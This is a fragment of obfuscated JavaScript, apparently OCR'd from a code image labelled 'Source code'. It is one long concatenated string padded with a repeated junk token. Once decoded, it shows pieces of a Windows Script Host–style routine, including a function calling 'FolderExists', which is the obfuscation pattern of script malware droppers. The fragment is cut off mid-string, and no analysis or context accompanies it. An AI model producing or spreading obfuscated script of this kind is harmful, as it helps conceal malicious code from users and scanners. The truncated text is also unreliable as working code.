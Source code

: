```javascript
'VsYtUhiOuBNMecoDlnXPECilGJpWSFwRVsY'+
'tUhiOuBNMecoDlnXPECesGJpWSFwRVsYtUhiOuBNMecoDlnXPECYGJpWSFwRVsYtUhiOuBNMecoDlnXPECsTGJpWSFwRVsYtUhiOuBNMecoDl'+
'nXPECeGJpWSFwRVsYtUhiOuBNMecoDlnXPECmOBGJpWSFwRVsYtUhiOu'+
'BNMecoDlnXPECj'+
'GJpWSFw'+
'RVsYtUhiOuBN'+
'MecoDlnXPECe'+
'cGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECtGJpWSFwRVsYtUhiOuBNMecoDlnXPEC")G'+
'JpWSFwRVsYtUhiOuBNMeco'+
'DlnX'+
'PEC; fuGJ'+
'pWSFwRV'+
'sYtUh'+
'iOuBNMecoDlnXPECnGJpWSFwRV'+
'sYtUhiOuBNMecoD'+
'lnXPECcGJpWSFwRVsYtUhiOuBNMecoDlnXPECtioGJpWSFwRVsYtUhiOuBNMecoDlnXPECn GJpWSFwRVsYtUhiOuBNMecoDln'+
'XPECFQGJpWSFwRVsYtUhiOuBNMecoDlnXPECGGJpWSFwRVsYtUhiOuBNMecoDlnXPEC'+
'RNGJpWSFwRVsYt'+
'UhiOuBNMecoDlnXPECaGJpWSFwRVsYtU'+
'hiOuBNMecoDlnXPECLqikGJpWSFwRVsYtUhiOuBNMecoDlnXPECoBGJ'+
'pWSFwRVsYtUhiOuBNMecoDlnXPECUGJpWSFwRVsYtUhiOuBNMecoDlnXPECvGJpWSFwRVsYtUhiOuBNMecoDlnXPECT'+
'GJpWSFwRVsYtUhiOuBNMecoD'+
'lnXPECsD'+
'(GJpWSFwRVsYtUhiOuBNM'+
'ecoDlnXPEC)GJpWSF'+
'wRVsYt'+
'UhiOuBNMecoDlnXPEC GJpWSFwRVsYtUhiOuBNMecoDlnXPEC{GJpWSFwRVs'+
'YtUh'+
'iOuBNMecoDlnXPEC GJpWSFwRVsYtUhiOuBNMecoDlnXPECrGJ'+
'pWSFwRVsYt'+
'UhiOuBNMecoDl'+
'nXPECeGJpWSFwRVsY'+
'tUhiOuBNM'+
'ecoDlnXPECtu'+
'GJpWSFwRVsYtUhiOuBNM'+
'ecoDlnXPECrn'+
' GJpWS'+
'FwRVsYtUhiOuBNMecoDlnXPECLVGJpWSFwRVsYtUhiOuBNMecoDlnXPECEGJpWSFwRVsYtUhiOuBNMecoDlnXPECXGJpWSFwRVsYtUhiOuBNMecoDln'+
'XPECoGJpWSFwRVs'+
'YtUhiOuBNMecoDlnXPEC'+
'yCGJpWSFwRVsYtUhiOuBNMec'+
'oDlnXPE'+
'CsGJpWSFwRVsYtUhiOuBNMecoDlnXPECiW'+
'aYGJpWSFwRVsYtUhiOuBNMecoDlnXPEChkr.FoGJpWSFwRVsYtUhiOuBNMecoDlnXPEClGJpWSFwRVsYtUhiOuBNMecoDlnXPECdGJpWSFwRVsY'+
'tUhiO'+
'uBNMecoDlnXPECerEGJpWSF'+
'wRVsYtUhiOuBNMecoDlnXPECxGJpWSFwRVsYtUhiOuBNMecoDlnXPE'+
'CiGJ'+
'pWSFwRVsYtUhiOuBNMecoDln'+
'XPECs'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPECtGJpWSFwRVsYtUhiO'+
'uBNMecoDlnXPE'+
'CsGJpWSFwRVsYtUhi'+
'OuBNMecoDlnXPE'+
'C(GJpWS'+
'Fw'+
'RVsYtUhiOuBNMec'+
'oDlnXPEC"pxyGJpWSFwRVsYtUhiOuBNMecoDlnXPEC'+
```